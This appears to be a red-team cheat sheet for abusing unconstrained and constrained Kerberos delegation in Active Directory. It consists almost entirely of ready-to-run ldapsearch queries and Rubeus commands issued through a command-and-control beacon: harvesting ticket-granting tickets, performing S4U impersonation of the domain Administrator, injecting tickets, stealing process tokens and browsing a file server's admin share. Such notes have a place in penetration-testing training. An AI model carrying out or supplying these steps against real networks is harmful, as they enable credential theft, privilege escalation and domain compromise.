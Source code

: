 
##### Unconstrained Delegation
Search for computers configured for Unconstrained Delegation
```powershell
ldapsearch (&(samAccountType=805306369 (userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname
```

Within SYSTEM level beacon on Unconstrained Delegation host, monitor for incoming TGTs on host
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap
```

Stop Rubeus
```powershell
jobs
jobkill 0
```

Inject TGT into sacrificial logon session
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:
```

Impersonate spawned process and confirm
```powershell
steal_token [PID]
run klist

rev2self       <--- Drop impersonation
kill [PID]
```

##### Constrained Delegation
Search for computers with Constrained Delegation (`msDS-AllowedToDelegateTo` not set to null)
```powershell
ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo
```

Check the UAC value to see if protocol transitioning is possible 
```powershell
ldapsearch (&(samAccountType=805306369)(samaccountname=LON-WKSTN-1$)) --attributes userAccountControl
```

We want true
```powershell
[Convert]::ToBoolean(16781312 -band 16777216)
```

Within SYSTEM level beacon on Constrained Delegation host, dump TGT for the computer account
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x3e7  /service:krbtgt /nowrap
```

Perform the S4U abuse to obtain a usable service ticket for **a service listed in the `msDS-AllowedToDelegateTo`** value, impersonating the default domain admin.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe s4u /user:LON-WKSTN-1$ /msdsspn:ldap/lon-dc-1 /impersonateuser:Administrator /nowrap /ticket:
```

 Inject the ticket into a sacrificial logon session.
```powershell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:Administrator /password:FakePass /ticket:
```

 Impersonate the process and verify
```powershell
steal_token [PID]
run klist

ls \\lon-fs-1\c$
```